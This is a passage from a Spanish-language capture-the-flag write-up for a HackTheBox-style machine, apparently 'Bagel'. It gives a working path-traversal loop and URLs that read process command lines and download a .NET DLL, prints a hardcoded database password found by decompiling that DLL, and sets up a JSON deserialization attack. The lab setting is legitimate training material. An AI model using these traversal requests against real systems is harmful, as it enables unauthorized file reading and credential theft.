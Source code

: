 ```python
    try:
        ws = websocket.WebSocket()    
        ws.connect("ws://127.0.0.1:5000/") # connect to order app
        order = {"ReadOrder":"orders.txt"}
        data = str(json.dumps(order))
        ws.send(data)
        result = ws.recv()
        return(json.loads(result)['ReadOrder'])
    except:
        return("Unable to connect")
if __name__ == '__main__':
  app.run(host='0.0.0.0', port=8000)
```



# Deserialización Json y análisis de código:

- Como podemos deducir, se está haciendo uso de un `webSocket` en el puerto `5000` el cual envía en formato `json` el contenido del archivo "orders.txt" haciendo uso de la función "ReadOrder"; nos podemos hacer a la idea de una posible deserialización Json; además, se hace mención de credenciales "SSH", esta información la usaremos más adelante.

- Si hacemos una búsqueda de cada proceso que se está ejecutando dentro del sistema encontramos un archivo `"bagel.dll"`:

```bash
for i in $(seq 900 1000); do curl http://10.129.21.151:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done
```

- Encontramos la ruta de dicho archivo y accedemos a él:

```bash
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
```

```
http://bagel.htb:8000/?page=../../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
```

- Descargamos el archivo y lo analizamos profundamente con [iILSpy: .NET Decompiler](https://github.com/icsharpcode/ILSpy)

- Encontramos posibles `credenciales`: 

```c#
string text = "Data Source=ip;Initial Catalog=Orders;User ID=dev;Password=k8wdAYYKyhnjg3K";
```

- Encontramos varias funciones interesantes como: ReadOrder, WriteOrder, RemoveOrder, ReadFile, WriteFile.

- Si analizamos la función "ReadOrder" podemos observar que se implementa sanitización a LFI, por lo que esta función queda descartada para un posible ataque.

- Si analizamos la función "RemoveOrder" nos damos cuenta que se trata de un "Objeto", el cuál podríamos usar para realizar un ataque [Json Deserialization](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) usando el código de la app que habíamos encontrado con un par de modificaciones:
